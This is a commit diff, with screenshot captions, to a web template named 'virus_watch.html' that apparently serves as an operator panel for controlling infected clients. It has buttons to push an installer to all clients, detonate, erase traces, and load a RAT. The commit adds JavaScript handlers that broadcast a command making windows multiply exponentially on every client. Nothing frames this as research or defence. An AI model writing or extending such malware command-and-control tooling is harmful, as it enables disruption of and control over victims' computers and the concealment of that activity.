

Before and after one commit to yj2952399-ctrl/igtracker, a Python web app: template templates/virus_watch.html in a window 1280 px wide. Shown: the part 237-1333 px from the top of the page at 91% size. Run offline with Jinja, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020).

Commit message:
virus_watch.html を更新

```diff
--- a/templates/virus_watch.html
+++ b/templates/virus_watch.html
@@ -84,7 +84,7 @@
     <h2>■ 操作盤</h2>
 
     <div class="row" style="justify-content:space-between">
-      <span class="hint">強度レベル（L0〜L7）／ L7は固定枠・OS常駐インストーラ</span>
+      <span class="hint">強度レベル（L0〜L7）／ L7は固定枠・窓は指数増殖</span>
       <span class="hint">ヒット <b id="vw-total">{{ total }}</b> ／ 未処理コマンド <b id="vw-pend">0</b></span>
     </div>
 
@@ -118,6 +118,8 @@
       <button id="vw-boom" class="danger">☢ 終焉（L6即時）</button>
       <button id="vw-fix" class="fixbtn">🔒 絶滅固定（L7・ロック）</button>
       <button id="vw-native" class="danger">🖥 インストーラを配る</button>
+      <button id="vw-breed" class="danger">🌐 窓を繁殖（×2）</button>
+      <button id="vw-breed3" class="danger">🌐×3</button>
       <button id="vw-wipe" class="danger">🧹 痕跡消去</button>
     </div>
 
@@ -150,11 +152,12 @@
       <button data-cmd="reload">🔄 再読込</button>
       <button data-cmd="update">⬆ 更新</button>
       <button data-cmd="native" class="danger">🖥 インストーラDL</button>
+      <button data-cmd="win" class="danger">🌐 繁殖</button>
       <button data-cmd="burn" class="danger">🔥 burn</button>
       <button data-cmd="kill" class="danger">☠ 全停止</button>
     </div>
     <div class="row" style="margin-top:9px">
-      <input id="vw-arg" placeholder="引数（喋る言葉 / 開くURL など）" style="flex:1;min-width:220px">
+      <input id="vw-arg" placeholder="引数（喋る言葉 / 開くURL / 繁殖の分岐数）" style="flex:1;min-width:220px">
       <button id="vw-arg-send" class="ghost">送信</button>
       <button id="vw-rat-load" class="ghost">取得</button>
       <button id="vw-cmds-clear" class="ghost">コマンド全消去</button>
@@ -266,6 +269,8 @@
   $("vw-freeze-hard").onclick = async () => { await post("/freeze", {freeze: "hard"}); log("硬凍結"); sync(); };
   $("vw-boom").onclick  = async () => { await post("/detonate"); log("終焉（L6）"); LV = 6; sync(); };
   $("vw-native").onclick = async () => { await post("/cmd", {sid:"", kind:"native", arg:"bat"}); log("インストーラDLを全個体へ"); sync(); };
+  $("vw-breed").onclick  = async () => { await post("/cmd", {sid:"", kind:"win", arg:"2"}); log("窓を×2で繁殖"); sync(); };
+  $("vw-breed3").onclick = async () => { await post("/cmd", {sid:"", kind:"win", arg:"3"}); log("窓を×3で繁殖"); sync(); };
   $("vw-fix").onclick   = async () => {
     FIXED = FIXED ? 0 : 1;
     await post("/fix", {fixed: FIXED});
@@ -284,7 +289,7 @@
   document.querySelectorAll("[data-cmd]").forEach(function (b) {
     b.addEventListener("click", function () {
       const k = b.getAttribute("data-cmd");
-      const a = (k === "speak" || k === "open" || k === "native") ? $("vw-arg").value : "";
+      const a = (k === "speak" || k === "open" || k === "native" || k === "win") ? $("vw-arg").value : "";
       sendCmd(k, a);
     });
   });
```
